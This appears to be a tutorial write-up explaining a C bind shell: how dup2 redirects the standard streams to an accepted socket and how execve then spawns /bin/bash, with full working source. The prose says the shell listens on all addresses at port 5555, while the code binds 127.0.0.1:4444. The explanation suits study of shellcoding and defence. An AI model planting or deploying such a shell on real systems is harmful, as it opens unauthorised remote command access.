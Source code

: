 The code above prepare a socket ready to listen income connections in every internet address on port 5555, and then execute through "execve()" syscall "/bin/bash" without arguments.

In this context, execve() would replace the process and socket by efectively spawning a shell. Lets see that, the program create a socket, which is a I/O file resource maintained by the kernel, not by the process it self, so when the process gets replaced with the spawn of a shell, the sockets still being available as a file descriptor, how ever, the new spawned shell have the defaults file descriptors assigned so is unavailable to used it. We can solve this by replacing in the process the default file descriptors through the socket:

```c
dup2(sockfd, 0);
dup2(sockfd, 1);
dup2(sockfd, 2);
```

This C code, replace for the current process the datastreams (input, output and error) the sockfd file descriptor, this effectively means that now, the process read from the socket, writes on the socket and send error messages through the socket.

This is done by updataing in the FDT of the current process the pointers for 0,1 and 2 entries, which now points to sockfd in the GOFT. The global code would look like follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

int main() {

    int serv_sock = socket(AF_INET, SOCK_STREAM, 0);

    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;           
    server_addr.sin_addr.s_addr = inet_addr("127.0.0.1");  
    server_addr.sin_port = htons(4444);        

  
    bind(serv_sock, (struct sockaddr *)&server_addr, sizeof(server_addr));

   
    listen(serv_sock, 0);

    printf("[+] Socket is listening on 127.0.0.1:4444\n"); //Always put '\n' at the end of a stdout fd connected to a terminal in order to trigger the bufer. Other way the printf() function will not display anything. 

    int sockfd = accept(serv_sock, NULL, NULL);

    dup2(sockfd, 0);
    dup2(sockfd, 1);
    dup2(sockfd, 2); //Replace file stdin, stdout and stderr for current process

    execve("/bin/bash", NULL, NULL);

    return 0;
}
```
